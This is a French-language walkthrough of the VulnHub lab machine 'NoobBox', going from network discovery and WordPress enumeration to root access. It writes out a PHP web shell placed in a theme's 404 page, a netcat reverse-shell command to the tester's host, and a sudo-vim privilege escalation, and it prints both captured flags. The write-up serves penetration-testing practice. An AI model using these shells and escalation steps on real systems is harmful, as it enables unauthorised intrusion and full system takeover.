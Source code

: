 # Shadow Phreak - NoobBox

Pour cette machine de niveau débutant, l'auteur nous indique qu'il faut trouver 2 flags :
* un flag utilisateur
* un flag administrateur

Il nous indique également que sa machine fonctionne mieux sur VirtualBox que sur VMware.

# Analyse 

## Recherche de l'adresse IP de la machine

L'adresse MAC de la carte réseau de ma machine s'exécutant sous VirtualBox commencera toujours par "08:00:27".  
Je lance donc la commande suivante :
```
sudo netdiscover | grep "08:00:27"

192.168.7.96    08:00:27:b0:7d:2d      1      60  PCS Systemtechnik GmbH
```
Elle me permet d'obtenir l'adresse IP de ma machine : 192.168.7.96

## Recherche d'un point d'entrée

Je commence une première approche avec nmap :
```
sudo nmap -A 192.168.7.96 -p-

PORT   STATE    SERVICE VERSION
53/tcp filtered domain
80/tcp open     http    Apache httpd 2.4.38 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.38 (Debian)
```
Le point d'entrée sera donc le port 80.

Je visite le site web, il s'agit de la page par défaut d'Apache 2.

Je cherche ensuite s'il n'y a pas des répertoires cachés :
```
dirb http://192.168.7.96

==> DIRECTORY: http://192.168.7.96/wordpress/
```

Je découvre qu'il y a un site WordPress, son contenu ne contient rien d'intéressant.  
Je recherche s'il contient une faille :
```
wpscan --url http://192.168.7.96/wordpress/ -e u

[+] noobbox
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```

Il ne contient pas de faille mais j'ai récupéré le nom d'utilisateur : noobbox  

Je vais essayer de trouver des fichiers cachés :
```
dirb http://192.168.7.96 -X .php,.html,.bak,.png,.jpg

+ http://192.168.7.96/img.jpg (CODE:200|SIZE:4811)
```

Dans cette image, je trouve la chaîne de caractères suivante : 5p4c3

Je me connecte au site à l'adresse suivante : http://192.168.7.96/wordpress/wp-admin/

Je me rends vite compte que le site utilise l'adresse IP `192.168.43.162` dans tous les liens.

Pour contourner le problème, j'utilise Burp Suite et je remplace en temps réel cette adresse IP par celle de ma VM :

![](https://github.com/mrousse83/VulnHub/raw/main/VulnHub/Shadow%20Phreak/NoobBox/burp.png)

# Exploitation

## Mise en place d'un web shell

Une fois connecté sur l'interface d'administration de WordPress, je modifie la page d'erreur `404.php`, je remplace son contenu par mon web shell :
```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
```

Ensuite, je visite le site en chargeant une page qui n'existe pas afin de faire exécuter ce code.  

J'obtiens mon flag avec la commande suivante : `cat ../../../../home/noobbox/user.txt`
```
USER FLAG : {e7028891afea8df6164a35880cc7e2e5}
```

## Mise en place d'un reverse shell

J'exécute la commande suivante dans mon web shell : `nc 192.168.7.15 7777 -e /bin/bash`

Une fois connecté sur mon reverse shell, je passe sur un shell interactif avec la commande suivante : `python -c 'import pty; pty.spawn("/bin/bash")'`

Je regarde avec quel utilisateur je suis connecté `id` :
```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Je me connecte à l'utilisateur `noobbox` : `su - noobbox`

Je regarde à quel groupe appartient cet utilisateur : `id`
```
uid=1000(noobbox) gid=1000(noobbox) groups=1000(noobbox),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth)
```

Je regarde quels sont ses droits avec la commande `sudo` : `sudo -l`
```
Matching Defaults entries for noobbox on N00bBox:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User noobbox may run the following commands on N00bBox:
    (ALL : ALL) /usr/bin/vim
```

Je deviens `root` avec la commande suivante : `vim -c ':!/bin/sh'`

Pour vérifier : `id`
```
uid=0(root) gid=0(root) groups=0(root)
```

Je récupère le flag administrateur :
```
cd root
ls -al
cat root.txt
```

Le voici :
```
ROOT FLAG : {a4c45279eaad84e5bb8ae0dfc5034400}
```
